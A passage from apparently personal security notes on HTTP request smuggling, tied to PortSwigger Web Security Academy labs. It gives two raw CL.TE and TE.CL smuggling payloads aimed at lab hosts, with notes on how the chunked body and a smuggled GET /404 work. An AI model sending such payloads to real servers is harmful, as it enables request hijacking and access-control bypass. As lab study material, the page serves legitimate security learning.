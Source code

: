 Specify the requested location with `GET /404`, which will append cookies, etc. to the request making a GET CSRF

```http
POST /post/comment HTTP/1.1
Host: 0ab8007103cb9890c061ef89005300ad.web-security-academy.net
Content-Length: 28
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X: X
```

### TE.CL

{% embed url="https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-te-cl-via-differential-responses" %}
Portswigger **lab** for practicing TE.CL and confirming it seeing a different response
{% endembed %}

Same idea as CL.TE, with `x=` in the body because the `0` will also be prepended to the next request. A lonely 0 in the next request would not be a valid header, so it needs to be the body.

```http
POST /post/comment HTTP/1.1
Host: 0a3d00e204916fbbc028023900de0074.web-security-academy.net
Content-Length: 4
Transfer-Encoding: chunked

9d
GET /404 HTTP/1.1
Host: 0a3d00e204916fbbc028023900de0074.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 30

x=
0


```

## Exploiting

{% embed url="https://portswigger.net/web-security/request-smuggling/exploiting" %}
Portswigger **explaining** how to exploit a HTTP Request Smuggling attack in a practical scenario
{% endembed %}

### CL.TE

{% embed url="https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-cl-te" %}
Portswigger **lab** for performing CSRF using CL.TE
{% endembed %}
